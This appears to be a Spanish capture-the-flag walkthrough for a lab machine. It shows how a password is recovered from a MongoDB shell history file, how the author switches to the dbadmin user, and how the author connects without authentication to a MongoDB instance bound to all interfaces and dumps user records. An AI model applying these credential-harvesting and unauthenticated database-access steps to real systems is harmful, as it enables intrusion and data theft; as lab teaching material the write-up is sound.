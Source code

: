 Revisando el siguiente archivo tenemos credenciales:
```bash
cat mongosh_repl_history

db.fsyncLock()
db.usuarios.insert({"usuario": "dbadmin", "contraseña": "chocolaterequetebueno123"})
```

Tenemos la contrasena del usuario **dbadmin** asi que intentaremos loguearnos:
```bash
# Comando para escalar al usuario: ( dbadmin )
su dbadmin
```

###### Usuario `[ chocolate ]`:
Ahoro que ganamos aceso como este usuario toca ganar acceso como **root**
Listando los permisos del directorio: **( /tmp )** tenemeos un archivo **SUID** que pertenece a **root**
```bash
ps -faux
```

Vemos que este corriendo un proceso como **root** de **mongodb**:
```bash
/bin/sh -c service ssh start &&     service mariadb start &&     service apache2 start ; sleep 5 &&     mongod --bind_ip_all --quiet 
```

Esto indica que esta en escucha por todas las interfaces de red:
```bash
mongod --bind_ip_all --quiet
```

###### Exponer MongoDB en **todas las interfaces de red** (`--bind_ip_all`) representa un **grave riesgo de seguridad** por estas razones:
**Acceso no autenticado desde cualquier lugar**  
Por defecto, MongoDB **no requiere contraseña** si no se configura explícitamente. Cualquier atacante en tu red (o internet si no hay firewall) podría conectarse sin credenciales
```bash
mongo --host [IP] --port 27017  # ¡Acceso total!
```

Sabiendo esto desde nuestra maquina atacante nos conectaremos a **mongodb**
```bash
mongo --host 172.17.0.2 --port 27017
```

Vemos que dumpeando la informacion es la misma que previamente habiamos encontrado revisando los archivos de **mongoDB**
```bash
> db.usuarios.find().pretty();
{
        "_id" : ObjectId("6645f4456682cdae1b46b799"),
        "nombre" : "dbadmin",
        "contraseña" : "chocolaterequetebueno123"
}
```
